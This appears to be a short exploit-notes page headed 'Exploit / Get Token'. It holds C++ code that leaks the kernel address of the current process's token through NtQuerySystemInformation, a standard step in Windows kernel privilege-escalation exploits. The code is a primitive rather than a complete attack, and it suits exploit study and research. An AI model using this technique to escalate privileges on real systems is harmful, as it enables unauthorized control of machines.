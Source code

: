 # Exploit

## Get Token

[code: get process token using NT-Q-sysinfo function in windows Kernel](https://www.notion.so/b4sh5i/code-get-process-token-using-NT-Q-sysinfo-function-in-windows-Kernel-b58ebf548b8d4d719b09c5338ece3c08)

```cpp
ULONG64 get_handle_addr(HANDLE h) {
	ULONG len = 20;
	NTSTATUS status = (NTSTATUS)0xc0000004;
	PSYSTEM_HANDLE_INFORMATION_EX pHandleInfo = NULL;
	do {
		len *= 2;
		pHandleInfo = (PSYSTEM_HANDLE_INFORMATION_EX)GlobalAlloc(GMEM_ZEROINIT, len);
		status = NtQuerySystemInformation(SystemExtendedHandleInformation, pHandleInfo, len, &len);
	} while (status == (NTSTATUS)0xc0000004);

	if (status != (NTSTATUS)0x0) {
		printf("NtQuerySystemInformation() failed with error: %#x\n", status);
		return 1;
	}

	DWORD mypid = GetProcessId(GetCurrentProcess());
	ULONG64 ptrs[1000] = { 0 };
	for (int i = 0; i < pHandleInfo->NumberOfHandles; i++) {
		PVOID object = pHandleInfo->Handles[i].Object;
		ULONG_PTR handle = pHandleInfo->Handles[i].HandleValue;
		DWORD pid = (DWORD)pHandleInfo->Handles[i].UniqueProcessId;
		if (pid != mypid)
			continue;
		if (handle == (ULONG_PTR)h)
			return (ULONG64)object;
	}
	return -1;
}

ULONG64 get_process_token() {
	HANDLE token;
	HANDLE proc = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, GetCurrentProcessId());
	if (proc == INVALID_HANDLE_VALUE)
		return 0;

	OpenProcessToken(proc, TOKEN_ADJUST_PRIVILEGES, &token);
	ULONG64 ktoken = get_handle_addr(token);

	return ktoken;
}
```
